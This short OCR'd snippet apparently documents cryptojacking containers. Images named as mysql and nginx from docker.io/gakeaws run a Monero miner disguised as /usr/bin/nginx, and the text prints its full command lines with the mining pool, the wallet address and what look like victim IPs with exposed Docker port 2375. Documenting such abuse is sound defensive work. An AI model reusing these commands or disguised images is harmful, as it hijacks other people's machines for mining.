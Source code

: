 Image: docker.io/gakeaws/mysql:5.6
        Command: nginx -a cryptonight -o stratum+tcp://pool.supportxmr.com:5555 -k --donate-level 1 --cpu-priority 0 -u 45TwKEr1LjoEPuxnbfuPhaXCf138AoQvtSJ3jdqg1gPxNjkSNbQpzZrGDaFHGLrVT7AzM7tU9QY8NVdr4H1C3r2d3XN9Cty -p 0913_2_47.99.242.11_2375 -t 2

        Image: docker.io/gakeaws/mysql:5.6
      	Command: nginx -a cryptonight -o stratum+tcp://pool.supportxmr.com:5555 -k --donate-level 1 --cpu-priority 0 -u 45TwKEr1LjoEPuxnbfuPhaXCf138AoQvtSJ3jdqg1gPxNjkSNbQpzZrGDaFHGLrVT7AzM7tU9QY8NVdr4H1C3r2d3XN9Cty -p 0913_1_39.97.178.119_2375 -t 1

      	Image: docker.io/gakeaws/nginx:v8.9
      	Command: nginx -a cryptonight -o stratum+tcp://pool.supportxmr.com:5555 -k --donate-level 1 --cpu-priority 0 -u 45TwKEr1LjoEPuxnbfuPhaXCf138AoQvtSJ3jdqg1gPxNjkSNbQpzZrGDaFHGLrVT7AzM7tU9QY8NVdr4H1C3r2d3XN9Cty -p 0910_1_39.97.178.119_2375 -t 1

nginx is the xmr mining executable.

/usr/bin/nginx in the image.

